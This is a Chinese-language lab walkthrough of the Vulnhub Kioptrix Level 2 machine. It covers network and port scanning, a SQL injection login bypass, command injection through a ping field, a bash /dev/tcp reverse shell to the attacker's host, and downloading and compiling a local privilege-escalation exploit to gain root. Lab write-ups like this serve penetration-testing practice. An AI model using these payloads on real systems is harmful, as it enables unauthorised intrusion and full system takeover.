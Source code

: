 # Vulnhub Kioptix Level 2


# Vulnhub-kioptix-Level-2

### 基本信息

kali:192.168.110.10

靶机:192.168.110.17

### 一、信息收集

```
└─# arp-scan --interface=eth1 -l
Interface: eth1, type: EN10MB, MAC: 00:50:56:a3:f5:91, IPv4: 192.168.110.10
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.110.1   00:50:56:a3:2e:39       VMware, Inc.
192.168.110.17  00:0c:29:de:9d:0f       VMware, Inc.
192.168.110.18  00:50:56:a3:de:c6       VMware, Inc.
192.168.110.19  00:50:56:a3:bd:59       VMware, Inc.

82 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 3.127 seconds (81.87 hosts/sec). 4 responded
```

```
└─# nmap -sV 192.168.110.17 -p1-65535
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-29 16:37 CST
Nmap scan report for 192.168.110.17
Host is up (0.00023s latency).
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind  2 (RPC #100000)
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
631/tcp  open  ipp      CUPS 1.1
645/tcp  open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:DE:9D:0F (VMware)
```

### 二、漏洞利用

网页登录框试下万能码`' or 1='1`

登录进去

`127.0.0.1;whoami`

```
127.0.0.1;whoami
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.016 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.027 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.028 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1999ms
rtt min/avg/max/mdev = 0.016/0.023/0.028/0.007 ms, pipe 2
apache
```

`127.0.0.1;bash -i >& /dev/tcp/192.168.110.10/4444 0>&1`

`nc -nvlp 4444`

```
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
```

```
searchsploit privilege | grep centos -i
```



```
python3 -m http.server 6666
```

```
wget http://192.168.110.10:6666/9542.c
```

```
gcc -o 9542 9542.c
```

```
./9542
```

```
sh-3.00# whoami
root
```


